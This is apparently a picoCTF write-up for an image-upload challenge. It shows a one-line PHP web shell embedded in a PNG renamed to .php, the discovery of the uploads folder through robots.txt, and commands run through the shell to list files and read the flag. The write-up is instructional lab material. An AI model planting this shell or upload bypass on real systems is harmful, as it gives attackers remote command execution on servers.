

# Description: #
Description
I found a web app that can help process images: PNG images only!

# Solution #
Based on the description, I knew that it would be a file upload vulnerability, png file to be specific.

My payload:
```php
<?php system($_GET['cmd']); ?>
```
I inject it to a png file named blue.png I downloaded online and renamed it to [blue.png.php](blue.png.php)

Upload result:



However, I did't know where was the file stored, so I tried visiting robots.txt for more information.

robots.txt:
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
So the file was likely stored in /uploads/blue.png.php.

/uploads/blue.png.php
```
�PNG  IHDR��
Warning: Undefined array key "cmd" in /var/www/html/uploads/blue.png.php on line 5

Fatal error: Uncaught ValueError: system(): Argument #1 ($command) cannot be empty in /var/www/html/uploads/blue.png.php:5 Stack trace: #0 /var/www/html/uploads/blue.png.php(5): system('') #1 {main} thrown in /var/www/html/uploads/blue.png.php on line 5
```
/uploads/blue.png.php?cmd=ls -a:
```
�PNG  IHDR�� . .. blue.png.php ; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

/uploads/blue.png.php?cmd=ls -a ..
```
�PNG  IHDR�� . .. G4ZTCOJYMJSDS.txt index.php instructions.txt robots.txt uploads ; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

/uploads/blue.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```
�PNG  IHDR�� /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9} */; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}
